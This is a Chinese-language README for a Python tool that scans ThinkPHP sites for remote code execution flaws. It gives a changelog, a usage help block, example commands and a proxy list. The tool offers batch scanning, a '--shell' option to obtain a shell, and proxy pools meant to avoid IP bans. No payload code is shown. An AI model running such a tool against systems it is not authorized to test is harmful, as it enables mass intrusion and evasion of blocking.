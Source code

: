 # ThinkphpRCE
Thinkphp  rce扫描脚本，附带日志扫描

- 2020.06.18 更新
1. 增加使用代理池功能
2. 增加输出到文件功能
3. 去掉了一些使用syetem函数的payload和重复payload（导致IP容易被封，且必要性不是很大）
4. 优化了一些代码，多个网站的时候显示进度

- 使用方法(python3.x)
```
usage: thinkphp_rce.py [-h] [-u URL] [-f FILE] [-p PROXY] [--shell]

Thinkphp Scan

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Start scanning url -u xxx.com
  -f FILE, --file FILE  read the url from the file
  -p PROXY, --proxy PROXY
                        use HTTP/HTTPS proxy
  --shell               try to get shell
```
```
python3 thinkphp_rce.py -u http://192.168.76.248/thinkphp520/public/ 

python3 thinkphp_rce.py -h host.txt

python3 thinkphp_rce.py -u http://192.168.76.248/thinkphp520/public/ --shell //批量检测和getshell

python3 thinkphp_rce.py -u http://192.168.76.248/thinkphp520/public/ --proxy proxy.txt //使用代理池（http/https）
```
- proxy.txt 
```
127.0.0.1:8080
114.107.150.215:46213
```